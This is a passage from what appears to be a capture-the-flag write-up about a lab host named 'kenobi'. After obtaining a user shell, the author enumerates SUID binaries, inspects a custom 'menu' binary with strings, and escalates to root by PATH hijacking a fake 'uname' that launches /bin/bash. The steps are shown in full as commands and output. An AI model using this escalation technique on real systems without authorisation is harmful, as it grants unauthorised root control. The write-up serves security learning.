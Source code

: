 ```
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$
```

Success! I had a local account on the host!

#### Escalating privileges
I began to poke around on the host and managed to find a flag `user.txt` sitting in kenobi's home directory. I followed my usual CTF local enumerating steps, which included checking the host version, sudo privs, etc... when I'd noticed a binary I wasn't familiar with when checking for files with the SUID bits set. I've truncated the output a bit for clarity.

```
kenobi@kenobi:~$ find / -perm -4000 -type f 2>/dev/null
/sbin/mount.nfs
...
/usr/bin/menu
...
/bin/ping6
```

Running this `menu` command prompted for an option and then output a corresponding status check of the site, network configuration information or the kernel version. I then fed the command through strings to validate that it was shelling out and was pleased to find that it called out to both `curl` and `uname`.

```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
4.8.0-58-generic
kenobi@kenobi:~$ strings /usr/bin/menu | egrep 'curl|uname|ifconifg'
curl -I localhost
uname -r
```

With this information I decided to try a PATH hijacking attack by creating an executable binary in the kenobi user's local path which, when ran, would invoke `/bin/bash`. I then overrode the kenobi user's PATH to place its local `~/bin/` directory at the highest priority and attempted to rerun the kernel version `menu` command again.

```
kenobi@kenobi:~$ mkdir bin
kenobi@kenobi:~$ echo '/bin/bash' > bin/uname
kenobi@kenobi:~$ chmod +x bin/uname 
kenobi@kenobi:~$ export PATH=~/bin/:$PATH
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# 
```
